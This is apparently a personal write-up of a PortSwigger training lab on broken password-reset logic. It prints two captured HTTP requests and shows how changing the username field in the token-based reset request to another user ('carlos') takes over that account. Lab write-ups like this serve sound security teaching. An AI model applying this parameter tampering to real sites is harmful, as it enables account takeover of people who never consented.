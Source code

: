 ```yaml
---
title: Password reset broken logic
description: PortSwigger Authentication Lab
---
```

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
## Discovery
Forgot password request
```http
POST /forgot-password HTTP/2
Host: 0a6d00cd036f3cd680d144d400030001.web-security-academy.net
Cookie: session=KR6cKjCU01uvfjoqxH761OvVIygU0Wp5
Content-Length: 15
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a6d00cd036f3cd680d144d400030001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d00cd036f3cd680d144d400030001.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

username=wiener
```

Request to change password
```http
POST /forgot-password?temp-forgot-password-token=y5261ijmskj7svmdp7b0kbyxfyf8sibf HTTP/2
Host: 0a6d00cd036f3cd680d144d400030001.web-security-academy.net
Cookie: session=KR6cKjCU01uvfjoqxH761OvVIygU0Wp5
Content-Length: 117
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0a6d00cd036f3cd680d144d400030001.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6d00cd036f3cd680d144d400030001.web-security-academy.net/forgot-password?temp-forgot-password-token=y5261ijmskj7svmdp7b0kbyxfyf8sibf
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

temp-forgot-password-token=y5261ijmskj7svmdp7b0kbyxfyf8sibf&username=wiener&new-password-1=peter&new-password-2=peter
```

The password reset request includes the username in the request body. If the implementation does not properly validate the requesting user and relies solely on this field, modifying the username to another user's identifier may allow unauthorised password reset

## Exploit
Changing the username to `carlos` in the `POST /forgot-password?temp-forgot-password-token=` request:
![](../../../../public/images/PS_Auth_20250613%20_204109.png)

The POST request went through and successfully change the carlo's password. 
![](../../../../public/images/PS_Auth_20250613%20_204255.png)

![](../../../../public/images/PS_Auth_20250613%20_204425.png)